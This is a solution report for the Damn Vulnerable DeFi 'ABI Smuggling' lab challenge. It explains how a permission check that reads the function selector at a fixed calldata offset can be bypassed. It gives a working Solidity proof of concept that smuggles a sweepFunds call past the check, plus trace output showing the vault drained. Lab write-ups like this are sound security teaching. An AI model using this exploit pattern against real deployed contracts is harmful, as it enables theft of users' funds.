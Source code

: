# Damn Vulnerable DeFi - ABI Smuggling - Solution Report

## Problem Overview

### Contract Summary

The challenge involves two main contracts:

1. `SelfAuthorizedVault`: This contract holds 1 million DVT tokens and implements a permissioned system for withdrawals.

   Key functions:

   - `withdraw`: Allows limited token withdrawals, subject to time constraints.
   - `sweepFunds`: Transfers all tokens to a specified receiver.
   - `_beforeFunctionCall`: An internal function that checks if the target of a call is the vault itself.

2. `AuthorizedExecutor`: An abstract contract that `SelfAuthorizedVault` inherits from, implementing the permission system.

   Key functions:

   - `setPermissions`: Initializes allowed action identifiers.
   - `execute`: Performs permission-checked function calls on a target contract.

### Initial Setup

- The vault is initialized with 1 million DVT tokens.
- The player is granted permission to call a specific function (with selector `0xd9caed12`) on the vault.
- The player starts with 0 DVT tokens.

### Success Criteria

To solve the challenge, the player must:

- Transfer all 1 million DVT tokens from the vault to a designated recovery address.
- Accomplish this using only the permissions granted to the player.

## Vulnerability

The main vulnerability in this challenge lies in the permission checking mechanism implemented in the `AuthorizedExecutor` contract, specifically within the `execute` function. The vulnerable code is as follows:

```solidity
function execute(address target, bytes calldata actionData) external nonReentrant returns (bytes memory) {
    // Read the 4-bytes selector at the beginning of `actionData`
    bytes4 selector;
    uint256 calldataOffset = 4 + 32 * 3; // calldata position where `actionData` begins
    assembly {
        selector := calldataload(calldataOffset)
    }

    if (!permissions[getActionId(selector, msg.sender, target)]) {
        revert NotAllowed();
    }

    _beforeFunctionCall(target, actionData);

    return target.functionCall(actionData);
}
```

The vulnerability stems from two key issues:

1. **Incorrect Selector Extraction**: The function attempts to read the selector from `actionData` at a fixed offset (4 + 32 \* 3 bytes into the calldata). This assumption about the location of the selector within `actionData` is flawed, as it doesn't account for the dynamic nature of calldata encoding.

2. **Disconnect Between Permission Check and Execution**: While the permission check is performed on the selector extracted from a specific location in the calldata, the actual execution (`target.functionCall(actionData)`) uses the entire `actionData`. This disconnect allows an attacker to pass a permitted selector for the check, while executing entirely different function calls.

These issues combined create an "ABI smuggling" vulnerability, where an attacker can craft calldata that passes the permission check but executes arbitrary function calls on the target contract.

## Attack Process

The attack exploits the ABI smuggling vulnerability to bypass the permission system and execute the `sweepFunds` function. The process involves the following steps:

1. **Craft Malicious Calldata**:

   - Construct calldata that starts with the `execute` function selector.
   - Include the vault's address as the target.
   - Set the offset to `actionData` to point past the permission check.
   - Insert the permitted selector (`0xd9caed12`) at the location where the `execute` function will look for it.
   - Append the actual `sweepFunds` function call data.

2. **Bypass Permission Check**:

   - When the `execute` function runs, it reads the selector from the predetermined offset.
   - This selector (`0xd9caed12`) matches the player's permission, allowing the call to proceed.

3. **Execute Unauthorized Function**:

   - After passing the permission check, the `execute` function calls `target.functionCall(actionData)`.
   - This executes the entire `actionData`, which contains the `sweepFunds` call.
   - The `sweepFunds` function is called with the recovery address as the recipient.

4. **Transfer Tokens**:

   - The `sweepFunds` function transfers all tokens from the vault to the recovery address.
   - This succeeds because the call is made from the vault contract itself, satisfying the `onlyThis` modifier.

5. **Complete the Challenge**:
   - All tokens (1 million DVT) are moved from the vault to the recovery address.
   - This satisfies the success criteria of the challenge.

This attack process demonstrates how the vulnerability in the permission checking mechanism can be exploited to execute unauthorized functions, effectively bypassing the intended security measures of the vault.

## Proof of Concept (PoC)

### Core Implementation

The core of the exploit is implemented in the `test_abiSmuggling` function within the challenge's test file. Here's the key code that demonstrates the ABI smuggling attack:

```solidity
function test_abiSmuggling() public checkSolvedByPlayer {
    // Craft the malicious calldata
    bytes memory maliciousCalldata = abi.encodePacked(
        vault.execute.selector,     // 4 bytes
        abi.encode(address(vault)), // 32 bytes (padded address)
        abi.encode(0x64),           // 32 bytes (offset to actionData, 100 in decimal)
        abi.encode(0x00),           // 32 bytes (padded zero)
        bytes4(0xd9caed12),         // 4 bytes (selector for permission check)
        abi.encode(0x44),           // 32 bytes (length of actionData, 68 in decimal)
        abi.encodeWithSelector(     // Remaining bytes for the actual sweepFunds call
            vault.sweepFunds.selector,
            recovery,
            address(token)
        )
    );

    // Make the call directly from the player's address
    (bool success, ) = address(vault).call(maliciousCalldata);
    require(success, "Exploit failed");
}
```

This PoC demonstrates how an attacker can bypass the permission system and execute the `sweepFunds` function, effectively draining the vault of all its tokens.

### Running Result

```
Ran 1 test for test/abi-smuggling/ABISmuggling.t.sol:ABISmugglingChallenge
[PASS] test_abiSmuggling() (gas: 56985)
Traces:
  [64585] ABISmugglingChallenge::test_abiSmuggling()
    ├─ [0] VM::startPrank(player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C], player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C])
    │   └─ ← [Return]
    ├─ [43547] SelfAuthorizedVault::execute(SelfAuthorizedVault: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], 0x85fb709d00000000000000000000000073030b99950fb19c6a813465e58a0bca5487fbea0000000000000000000000008ad159a275aee56fb2334dbb69036e9c7bacee9b)
    │   ├─ [33748] SelfAuthorizedVault::sweepFunds(recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa], DamnValuableToken: [0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b])
    │   │   ├─ [2519] DamnValuableToken::balanceOf(SelfAuthorizedVault: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264]) [staticcall]
    │   │   │   └─ ← [Return] 1000000000000000000000000 [1e24]
    │   │   ├─ [27674] DamnValuableToken::transfer(recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa], 1000000000000000000000000 [1e24])
    │   │   │   ├─ emit Transfer(from: SelfAuthorizedVault: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], to: recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa], amount: 1000000000000000000000000 [1e24])
    │   │   │   └─ ← [Return] true
    │   │   └─ ← [Stop]
    │   └─ ← [Return] 0x
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return]
    ├─ [519] DamnValuableToken::balanceOf(SelfAuthorizedVault: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264]) [staticcall]
    │   └─ ← [Return] 0
    ├─ [0] VM::assertEq(0, 0, "Vault still has tokens") [staticcall]
    │   └─ ← [Return]
    ├─ [519] DamnValuableToken::balanceOf(recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa]) [staticcall]
    │   └─ ← [Return] 1000000000000000000000000 [1e24]
    ├─ [0] VM::assertEq(1000000000000000000000000 [1e24], 1000000000000000000000000 [1e24], "Not enough tokens in recovery account") [staticcall]
    │   └─ ← [Return]
    └─ ← [Stop]
```
